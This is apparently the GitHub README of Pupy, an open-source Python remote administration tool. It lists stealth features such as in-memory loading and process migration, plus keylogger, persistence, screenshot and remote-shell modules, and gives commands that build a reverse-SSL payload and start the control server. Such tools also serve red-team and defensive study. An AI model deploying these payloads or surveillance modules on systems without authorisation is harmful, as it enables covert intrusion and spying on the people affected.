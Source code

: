 # Pupy
Pupy is an opensource RAT (Remote Administration Tool) written in Python. Pupy uses reflective dll injection and leaves no traces on disk.

## Features :
- On windows, the Pupy payload is compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
- Pupy can reflectively migrate into other processes
- Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd). The imported python modules do not touch the disk. (.pyd mem import currently work on Windows only, .so memory import is not implemented). 
- modules are quite simple to write and pupy is easily extensible.
- Pupy uses rpyc (https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
  - we can also access remote objects interactively from the pupy shell and even auto completion of remote attributes works !
- communication channel currently works as a ssl reverse connection, but a bind payload will be implemented in the future
- all the non interactive modules can be dispatched on multiple hosts in one command
- Multi-platform (tested on windows 7, windows xp, kali linux, ubuntu)
- modules can be executed as background jobs
- commands and scripts running on remote hosts are interruptible
- auto-completion and nice colored output :-)
- commands aliases can be defined in the config

## Implemented Modules :
- migrate (windows only) 
  - inter process architecture injection also works (x86->x64 and x64->x86)
- keylogger (windows only)
- persistence (windows only)
- screenshot (windows only)
- command execution
- download
- upload
- socks5 proxy
- interactive shell (cmd.exe, /bin/sh, ...)
- interactive python shell

##Quick start
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
### generate/run a payload
#### for Windows
```bash
./genpayload.py 192.168.0.1 -p 443 -t exe_x86 -o pupyx86.exe
```
#### for Linux
```bash
pip install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

#### for MAC OS X
```bash
easy_install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

### having fun
1. eventually edit pupy.conf to change the bind address / port
2. start the pupy server :
```bash
./pupysh.py
```
3. type "clients" to display connected clients

### Some screenshots
#####list connected clients
![screenshot1](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr1.png "screenshot1")
#####help
![screenshot3](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/help.png "screenshot3")
#####execute python code on all clients
![screenshot2](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr2.png "screenshot2")
#####execute a command on all clients, exception is retrieved in case the command does not exists
![screenshot4](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr3.png "screenshot4")
#####use a filter to send a module only on selected clients
![screenshot5](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/filters.png "screenshot5")
#####migrate into another process
![screenshot6](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/migrate.png "screenshot6")
#####interactive shell
![screenshot7](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/interactive_shell.png "screenshot7")
#####interactive python shell
![screenshot8](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/pyshell.png "screenshot8")

## Dependencies
rpyc (https://github.com/tomerfiliba/rpyc)

##Roadmap and ideas
Some ideas without any priority order
- support for https proxy
- add offline options to payloads like enable/disable certificate checking, embbed offline modules (persistence, keylogger, ...), etc...
- integrate scapy in the windows dll :D (that would be fun)
- work on stealthiness and modules under unix systems
- webcam snap
- mic recording
- socks5 udp support
- local/remote port forwarding
- ...
- any cool idea ?

## Contact
mail: contact@n1nj4.eu  
  
If some of you want to participate or send me a feedback, don't hesitate :-)  
[Follow me on twitter](https://twitter.com/n1nj4sec)
 

